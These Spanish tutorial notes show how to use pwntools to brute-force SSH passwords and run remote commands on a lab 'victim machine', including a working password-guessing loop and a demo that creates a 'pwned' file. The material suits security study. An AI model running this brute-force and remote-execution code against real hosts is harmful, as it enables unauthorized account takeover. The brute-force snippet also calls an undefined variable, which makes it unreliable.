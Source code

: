 Para comprobar que existe conectividad por ssh, para ello ejecutamos este código con una máquina víctima:
```python
from pwn import *

user = 'mario'
host = '192.168.0.18'
password = '123123'

ssh_conn = ssh(user, host, password=password)
```
Y veremos que con estos datos es correcto y hay conectividad:
![[Pasted image 20230417133513.png]]
## ATAQUE FUERZA BRUTA CONTRASEÑAS SSH PWN
Podemos probar varias combinaciones de contraseñas con la librería pwn de esta forma.
```python
from pwn import *

posibles_passwords = ['mario123', 'pass123', 'password1', '123123']

user = 'mario'
host = '192.168.0.18'

for i in posibles_passwords:
    try:
        ssh_connection = ssh(user, host, password=i)
        print(f"LA CONTRASEÑA ES {i}")
    except:
        pass

ssh_conn('whoami') # Ejecutamos un comando con espacios.
```
Y aquí vemos el resultado y cómo la contraseña correcta es la de 123123:
![[Pasted image 20230417151130.png]]
## EJECUTAR COMANDOS SSH PWN
Y ahora podemos entrar por ssh y ejecutar comandos remotamente poniendo este código:
```python
from pwn import *

user = 'mario'
host = '192.168.0.18'
password = '123123'

ssh_conn = ssh(user, host, password=password)

ssh_conn.whoami() # Ejecutamos un comando.
```
Y vemos que el comando se ejecuta correctamente:
![[Pasted image 20230417133637.png]]
Pero si queremos ejecutar un comando con espacios, lo haríamos de esta forma:
```python
from pwn import *

user = 'mario'
host = '192.168.0.18'
password = '123123'

ssh_conn = ssh(user, host, password=password)

ssh_conn('ls -la') # Ejecutamos un comando con espacios.
```
Y vemos el resultado:
![[Pasted image 20230417133859.png]]
## CAMBIAR DE DIRECTORIO DE TRABAJO SSH PWN
Si queremos que se cambie el actual directorio de trabajo de la máquina víctima lo haremos con el parámetro set_working_directory:
```python
from pwn import *

user = 'mario'
host = '192.168.0.18'
password = '123123'

ssh_conn = ssh(user, host, password=password)

# Cambiar el directorio de trabajo en el servidor remoto
ssh_conn.set_working_directory('/home/mario/Escritorio')
ssh_conn('touch pwned')
```
Y ahora vemos como se ha creado un nuevo archivo dentro del escritorio de la máquina víctima:
![[Pasted image 20230417134255.png]]


